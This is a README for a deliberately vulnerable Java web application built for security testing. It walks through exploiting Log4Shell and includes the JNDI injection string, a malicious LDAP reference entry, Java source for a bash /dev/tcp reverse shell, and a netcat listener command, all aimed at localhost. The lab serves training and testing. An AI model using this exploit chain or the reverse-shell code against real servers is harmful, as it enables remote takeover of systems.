 # vulnerable-webapp
An application with various vulnerabilities for testing

## Running the application

- Run the java file: ```java -jar vulnerable-webapp-[latest].jar```
- The default username is `jblogs` and the default password is `pa55word`.
- You will need a web browser such as firefox.


# Some vulnerabilities

## CVE-2021-44228 (log4shell)

To enable the in-memory LDAP server that is required for the JNDI lookup, you must run the application (v1.5.0 onward which includes the vulnerable version of log4j) using the `ldap` spring profile e.g.:

```bash
java -Dspring.profiles.active=ldap -jar vulnerable-webapp-[latest].jar
```

Optionally, if you want to debug the in-memory LDAP server, you can enable `unboundid` debug logging using:


```bash
-Dcom.unboundid.ldap.sdk.debug.enabled=true -Dcom.unboundid.ldap.sdk.debug.level=INFO -Dcom.unboundid.ldap.sdk.debug.type=ASN1 -Dcom.sun.jndi.ldap.object.trustURLCodebase=true
```

### Triggering the vulnerability

To trigger the vulnerability and force Log4j to load a Java Naming Reference LDAP entry (rfc2713) using JNDI, inject the following expression into the *username* field of the `user-admin` page (other fields may work too!)


```
${jndi:ldap://127.0.0.1:8081/uid=java-ref,ou=people,dc=jisc,dc=ac,dc=uk}
```

![JNDI log4shell injection](site/img/jndi-injection.jpg)


The log4j variable substitution code path will then fetch the following `javaNamingReference` object from the in-memory LDAP server (via JNDI):

```
dn: uid=java-ref,ou=people,dc=jisc,dc=ac,dc=uk
objectclass: top
objectclass: javaContainer
objectclass: javaObject
objectclass: javaNamingReference
javaCodeBase: http://localhost:8080/rce/rce-exploit-0.0.1-SNAPSHOT.jar
javaClassName: uk.ac.jisc.cybersec.rce.RceReverseShellExploit
javaFactory: uk.ac.jisc.cybersec.rce.RceReverseShellExploit
cn: Java Class
sn: Class
uid: java-ref
```

The URLClassLoader will lookup the `uk.ac.jisc.cybersec.rce.RceReverseShellExploit` class firstly from the local classpath — where it does not exist — then from the URL codebase provided by the LDAP entry (e.g. remotely via HTTP at `http://localhost:8080/rce/rce-exploit-0.0.1-SNAPSHOT.jar`). This downloads the referenced `jar` file, and instantiates `uk.ac.jisc.cybersec.rce.RceReverseShellExploit`, triggering the static method shown below. The malicious code attempts to establish a reverse shell to anything listening on port *8083* on *localhost*:

```java
package uk.ac.jisc.cybersec.rce;

/**
 * Sample RCE exploit class. 
 */
public class RceReverseShellExploit {

	static {
		try {
			System.out.println("****************************** Attempting takeover (reverse shell)...");
			String[] cmd = {
			           "bash",
			           "-c",
			           "exec 5<>/dev/tcp/127.0.0.1/8083;cat <&5 | while read line; do $line 2>&5 >&5; done" };
			 
			   Runtime.getRuntime().exec(cmd);
			System.out.println("****************************** Takeover success!");
		} catch (Exception e) {
			e.printStackTrace();
		}
	}

}
```

To complete the attack and establish a remote network connection to the compromised web-server, you, as the *bad-actor*, must start a listener on port `8083` on `localhost` (in a real-world attack, this would be a remote server). For example, using `netcat`:


```bash
nc -l 8083
```

Once the connection is established, you can run bash commands inside the listener you started above e.g. type `ls` into the terminal window running `netcat`.


#### Note on Java Version

To ensure the vulnerability works in versions of Java greater than v8, the following property is set automatically by the web-application — JDK versions after JDK 8 disable class creation from URL codebases by default.


```
-Dcom.sun.jndi.ldap.object.trustURLCodebase=true
```

Note, a 'codebase' can be defined as a source, or a place, from which to load classes into a virtual machine. 

